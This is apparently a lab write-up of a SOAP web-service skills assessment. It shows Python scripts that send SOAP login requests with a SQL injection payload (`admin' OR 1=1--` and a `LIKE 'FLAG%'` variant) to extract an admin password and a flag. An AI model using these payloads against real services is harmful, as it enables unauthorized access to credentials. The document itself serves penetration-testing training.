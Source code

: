 # Web Service & API Attacks

#### Our client tasks us with assessing a SOAP web service whose WSDL file resides at `http://<TARGET IP>:3002/wsdl?wsdl`.

#### Assess the target, identify an SQL Injection vulnerability through SOAP messages and answer the question below.

#### Submit the password of the user that has a username of "admin". Answer format: FLAG{string}. Please note that the service will respond successfully only after submitting the proper SQLi payload, otherwise it will hang or throw an error.



The first step is to analyse carefully the WSDL file. We can retrieve the file with the command `curl http://SERVER_IP:PORT/wsdl?wsdl > wsdl.txt`. This way we can inspect carefully the WSDL file.

Then the next step is to find the correct `soapAction`.

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

There are only two `soapActions` in the file, so we identified the **Login** that is related to this skills assessment.

Then we'll take a look of it's parameters located in **LoginRequest** in the data types.

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

And now we've identified the parameters **username** and **password**.

The next step is to make a python script to send our payload. This will be a very straightforward demonstration, since the application hangs when is not expecting the correct input.&#x20;

<pre class="language-python" data-overflow="wrap"><code class="lang-python"><strong>import requests
</strong>
payload = '&#x3C;?xml version="1.0" encoding="utf-8"?>&#x3C;soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/">&#x3C;soap:Body>&#x3C;LoginRequest xmlns="http://tempuri.org/">&#x3C;username>username&#x3C;/username>&#x3C;password>password&#x3C;/password>&#x3C;/LoginRequest>&#x3C;/soap:Body>&#x3C;/soap:Envelope>'

print(requests.post("http://SERVER_IP:PORT/wsdl", data=payload, headers={"SOAPAction":'"Login"'}).content)

</code></pre>

The SQLi payload we have to use is `admin' OR 1=1--`. In order to not break the script we have to add two aditional single quotes at the end and the beginning of the payload. Like this:

{% code overflow="wrap" %}
```python
import requests

payload = '''<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><username>admin' OR 1=1--</username><password>password</password></LoginRequest></soap:Body></soap:Envelope>'''

print(requests.post("http://SERVER_IP:PORT/wsdl", data=payload, headers={"SOAPAction":'"Login"'}).content)
```
{% endcode %}

Let's send the payload to see if it works.

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

And it looks we got something. We got a username and a hashed password string. Now that we our payload working, lets try to retrieve the flag. We will add `LIKE 'FLAG%'` to search for values that start with "FLAG".

{% code overflow="wrap" %}
```python
import requests

payload = '''<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><username>admin' OR 1=1 LIKE 'FLAG%' --</username><password>password</password></LoginRequest></soap:Body></soap:Envelope>'''

print(requests.post("http://SERVER_IP:PORT/wsdl", data=payload, headers={"SOAPAction":'"Login"'}).content)
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

And we founded it! \
This section was a totally new concept, since i never programmed any kind of web service. But it was fun to learn and to having a SQLi mix in this Skills Assessment.
